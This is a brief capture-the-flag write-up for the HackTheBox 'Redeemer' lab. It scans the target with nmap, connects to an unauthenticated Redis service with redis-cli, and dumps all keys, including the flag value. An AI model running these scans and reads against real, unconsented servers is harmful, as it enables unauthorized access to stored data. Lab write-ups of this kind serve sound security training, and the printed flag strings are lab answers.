

# [HackTheBox] [Redeemer]: [Enumeration], [Foothold]

**Target:** [Redeemer] | **OS:** Linux | **Difficulty:** Super Easy  
**Attack Vector:** [Enumeration -> Foothold]

---

## 1. Enumeration

```bash
sudo nmap -p- -sS ---min-rate 5000 -T3 10.129.136.187
```

`PORT     STATE SERVICE
6379/tcp open  redis`

We have the redis port open, lets investigate about it



Now lets try to connect using redis-cli

## 2. Foothold

```bash
redis-cli -h 10.129.136.187 -p 6379
```

-p 6379 is optional because redis uses that port by default, now lets see all the keys and grab the flag


## 3. Flag 

```bash
10.129.136.187:6379> SELECT 0
OK
10.129.136.187:6379> KEYS *
1) "stor"
2) "numb"
3) "flag"
4) "temp"
10.129.136.187:6379> GET stor
"e80d635f95686148284526e1980740f8"
10.129.136.187:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.136.187:6379> GET numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.136.187:6379> GET temp
"1c98492cd337252698d0c5f631dfb7ae"
10.129.136.187:6379>
```

Pwned.
